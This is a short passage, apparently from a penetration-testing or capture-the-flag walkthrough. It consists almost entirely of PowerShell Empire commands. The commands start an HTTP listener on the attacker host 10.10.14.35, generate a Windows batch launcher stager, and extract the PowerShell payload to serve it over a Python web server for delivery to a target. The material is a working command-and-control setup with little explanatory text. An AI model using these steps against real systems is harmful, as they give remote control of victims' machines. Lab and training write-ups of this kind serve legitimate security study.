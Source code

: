 #### 2.1. Listener
```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.35
(Empire: listeners/http) > execute
(Empire: listeners/http) > back
```


#### 2.2. Payload
```
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
```


#### 2.3. Launch payload
```
# grep -oE 'powershell .*' /tmp/launcher.bat > data && python -m SimpleHTTPServer 8888
```
